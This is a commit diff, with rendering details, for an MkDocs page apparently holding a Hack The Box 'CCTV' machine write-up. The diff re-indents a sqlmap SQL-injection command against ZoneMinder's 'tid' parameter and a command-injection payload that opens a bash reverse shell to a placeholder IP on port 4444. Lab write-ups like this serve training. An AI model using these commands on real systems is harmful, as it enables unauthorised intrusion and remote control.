

Before and after one commit to HollowR00t/MachineHacking, an MkDocs documentation site: the page built from docs/CCTV/CCTV_WriteUp.md, in a window 1280 px wide and 900 px high, scrolled down 2296 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

````diff
--- a/docs/CCTV/CCTV_WriteUp.md
+++ b/docs/CCTV/CCTV_WriteUp.md
@@ -37,9 +37,9 @@ Vulnerability research on this specific version revealed it is susceptible to **
 To automate the extraction, we leveraged `sqlmap`. First, we intercepted a valid session cookie (`ZMSESSID`) and targeted the database architecture.
 
 !!! info "SQLMap Execution - Database Enumeration"
-```bash
-sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=YOUR_ZMSESSID" -p tid --dbms=mysql --batch --dbs
-```
+	```bash
+	sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=YOUR_ZMSESSID" -p tid --dbms=mysql --batch --dbs
+	```
 * `-u "..."`: We pass the exact vulnerable URL you discovered in the report.
 * `--cookie="..."`: Your VIP pass. Without this, the server would redirect us to the login panel.
 * `-p tid`: Isolates the payload injection to the vulnerable parameter.
@@ -117,9 +117,9 @@ Research indicated this specific version suffers from an OS Command Injection vu
 The vulnerability resides in configuration parameters such as the **Image File Name** field. Unsanitized user input is written directly into the Motion configuration files. This allows an aunthenticated attacker to inject malicious commands that will trigger and achieve arbitrary code execution once the Motion service is restarted. We crafted a malicious payload using Python to spawn a reverse shell:
 
 !!! danger "Weaponized Payload"
-```bash
-$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/IP/4444 0>&1\"')")
-```
+    ```bash
+    $(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1\"')")
+    ```
 
 ![](Assets/Pasted%20image%2020260316190811.png)
 
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -9,10 +9,14 @@ theme:
     primary: black
     accent: deep orange
   features:
-    - navigation.top
+    #- navigation.top
     - search.suggest
     - search.highlight
     - content.code.copy
+
+plugins:
+  - search
+  - callouts
 
 markdown_extensions:
   - pymdownx.highlight:
````
